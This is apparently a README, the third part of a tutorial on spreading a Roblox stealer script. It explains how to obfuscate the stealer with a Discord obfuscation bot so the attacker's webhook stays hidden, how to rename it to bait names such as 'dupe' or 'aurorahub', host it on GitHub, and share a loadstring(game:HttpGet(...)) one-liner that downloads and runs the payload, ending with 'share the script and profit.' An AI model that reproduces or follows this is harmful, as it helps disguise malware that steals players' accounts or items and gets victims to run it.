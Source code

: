 # [click me for part 1](https://github.com/Enivzoy/Aurora/blob/main/README.md)
Now for the last part
# 3: obfuscation & uploading
Now you gotta obfuscate your bot so people don't spam your webhook  
I'll be showing you how to use moonsec in this tutorial  
aight  
so first you gotta join [moonsex](https://discord.gg/2Eah77h8KC)  
you dm this bot  
![Preview](https://cdn.discordapp.com/attachments/1240373088063983767/1240554599815843851/image.png?ex=6646fc00&is=6645aa80&hm=c00059eb81d41af59246559ce05a91eaec6fe9c490db324228a0ee55a37fb126&)  
then you send the file you saved(mailsetaler.txt - ⁠[#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240376735581601934)) to the bot  
you will see smth like this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555304484212778/image.png?ex=6646fca8&is=6645ab28&hm=e403deb16ee5097d3ad0f4d7d13d64a2f71e97a3de3eabfbf4d055d99174af7a&)  
click this   
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555577516752957/image.png?ex=6646fcea&is=6645ab6a&hm=b01cb252bd11400c8d78656accf3422644a40c39a9e474bf1b16be970566403c&)   
then you click this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240555948314202132/image.png?ex=6646fd42&is=6645abc2&hm=5e25be2cf8ea0ebfdfec50181b99cd40eac73ccd3acb85ab8dfdf7fbeef9f5d3&)  
it should look like this now  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/dba1dd35-2c3f-42de-b1b2-01b8b975daf3)  
then click all of these  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0fb68965-064c-45e9-ae9b-7b5dc71f45bb)  
then click obfuscate  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/4d17cc43-574c-488c-a72b-b1f3fdcb9690)  
it willl show this embed click on the **[Click Here]** to download the file  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/d0202540-2646-4475-8a05-f2c6b2cef77f)  
you will have to do a linkvertise  
once you get your file(THIS WILL BE DIFFERENT FOR EVERYONE)  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/8aa2dd5f-b35d-4a46-b239-366481d74d2b)  
rename it to something else like "loader" "exec" "dupe" "tradescam" "arkohub", "aurorahub" etc etc
![image](https://github.com/Enivzoy/Aurora/assets/130647229/32598d66-be6d-41d3-96f7-090ab96dd1e9)
# Now uploading
create your account at [github](https://github.com/)  
your homepage should look like this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558027157934100/image.png?ex=6646ff32&is=6645adb2&hm=adb18e7598664a0ac26dbcbe0d8e8ea41cea89dee44ff07923b8c4a9eb5e9e80&)  
clickk this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558199116140584/image.png?ex=6646ff5b&is=6645addb&hm=f1cec2fc885f0a64552c64bf6153e61052b96a34d3c740606f4b87573f454243&)  
click new repository  
![image](https://github.com/Enivzoy/Aurora/assets/130647229/0782fd97-53b3-4633-a9a0-b7c383d7fa00)  
it will open this page  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558489231953921/image.png?ex=6646ffa0&is=6645ae20&hm=197bb89a6471aba248a44fe8a1f28651b414a95353cf59c5ef4f2a0f00f57ca5&)  
click create repo when filling in everything  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558688423510017/image.png?ex=6646ffcf&is=6645ae4f&hm=252937aa1796623521a705bea3941a1c2df600fed9717a6510ec4c3f14a5b2cc&)   
it will now show this   
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558792157040723/image.png?ex=6646ffe8&is=6645ae68&hm=50af32f57953c5e37732994dff3c29b9758984266c349ab2c6b671201cb9ab2e&)  
click  uploading an existing file  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240558918015647774/image.png?ex=66470006&is=6645ae86&hm=69cf068aab1fc306b93d1e024919c032102b09e9544e239f4892ed41c7eeb329&)  
it will open this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559024924000266/image.png?ex=66470020&is=6645aea0&hm=218cd3f3460bcafc85b1735fec8d25d7d869bc2c783fb72912e38b7399d65e21&)  
find where you had saved your file ([#⁠tutorial-since-stupid](https://discord.com/channels/1226830019939143690/1240373088063983767/1240556624561832037)⁠ TILL⁠ [#tutorial-since-stupid⁠](https://discord.com/channels/1226830019939143690/1240373088063983767/1240557422091698176)) for me its loader saved in downloads folder  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559309784612924/image.png?ex=66470063&is=6645aee3&hm=43daaffdb521616038afa74a314ef65bc9325ed804c8867abef887b674459059&)  
drag and drop your file  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559469205913600/image.png?ex=66470089&is=6645af09&hm=b55d0ff1ef2b1d1b85707de94f60de1f99f603b03ab874bc257c8667be64ca49&)  
once uploaded click commit changes  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559673501814784/image.png?ex=664700ba&is=6645af3a&hm=6a240985d7a85cd90c53b08b87dd5688edfbbb2e70ec97d64716a1989ee9c47e&)  
if youve done everything right to this point it should look like this  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559816875970642/image.png?ex=664700dc&is=6645af5c&hm=31253e6aa23e6eced61432a3cf8440d62c331a3d320af266186237f88cdaa1ea&)  
click your file  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240559950447771689/image.png?ex=664700fc&is=6645af7c&hm=8646488d24043feb95148a50b2ef0e1c93fac4bdabc2b37318403b4798c99627&)  
it should open this up, then click raw  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240560086980497431/image.png?ex=6647011d&is=6645af9d&hm=f245933b5d8685c95f89496c88ccf57a774e468e5db0a611eea3284258268148&)  
you will see this mess  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240560206887260262/image.png?ex=66470139&is=6645afb9&hm=97fa956118a1ed90222e0580202ce8b3eb58eebc28266688a6d0db15ef111f27&)  
copy the url for me it is https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader  
![Image](https://cdn.discordapp.com/attachments/1240373088063983767/1240560332368510986/image.png?ex=66470157&is=6645afd7&hm=3f0426b6aadc9d427da50fd1983e72f33f64bce6e7f3600ccb82e70a49568215&)   
then you put the raw link into a loadstring  
`loadstring(game:HttpGet('RAW LINK HERE'))()`  
for me it is `loadstring(game:HttpGet('https://raw.githubusercontent.com/Enivzoy/Aurora/main/loader'))()`  
  
  
now you share the script  
and porfit  
profit  
make sure to dm me your profits  
so i can advertise it 👍  
if you dont understand something make sure to dmme  
# thanks to my discord server, arko and levox and future partners for providing me with resources and etc
